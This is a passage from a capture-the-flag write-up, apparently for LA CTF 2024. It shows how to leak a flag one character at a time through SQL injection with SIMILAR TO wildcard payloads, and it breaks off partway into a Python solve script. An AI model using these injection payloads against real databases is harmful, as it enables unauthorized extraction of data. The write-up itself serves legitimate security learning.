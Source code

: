 Now we know that the flag string length is `45`!

- Leak the flag:

In this step, we can simply **brute force the flag's character with the `allowed_chars`**! 

**However, it's worth noting that an error will occurred with the following SQL query:** 
```sql
' OR name SIMILAR TO 'lactf{1______________________________________
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/LA-CTF-2024/images/Pasted%20image%2020240219165553.png)

This is because, in regular expression, `{x}` is to **match previous token (Character) exactly x times**.

Since we know the flag format is `lactf{.*}`, we can **just not to prepend and append the `lactf{` and `}`** to the regular expression pattern.

**So, our payload will be something like this:**
```sql
' OR name SIMILAR TO '______1______________________________________
' OR name SIMILAR TO '______12_____________________________________
' OR name SIMILAR TO '______123____________________________________
```

**Armed with above information, we can finish our Python solve script:**
```python
#!/usr/bin/env python3
import requests
from string import ascii_letters, digits

class Exploit:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.SUBMIT_ROUTE = '/submit'
        self.WILDCARD_CHARACTER = '_'
        self.EXCLUDED_NAMES = ('peng', 'emperor')
        self.EXCLUDED_NAMES_LENGTH = tuple(len(name) for name in self.EXCLUDED_NAMES)

        # underscore (_) and single quote (') character is excluded, 
        # because it's the wildcard character and will cause syntax error
        # space ( ) character is also excluded, because the flag format shouldn't have that character?
        self.ALLOWED_CHARS = sorted(set(ascii_letters + digits + "flag{aword}"))
```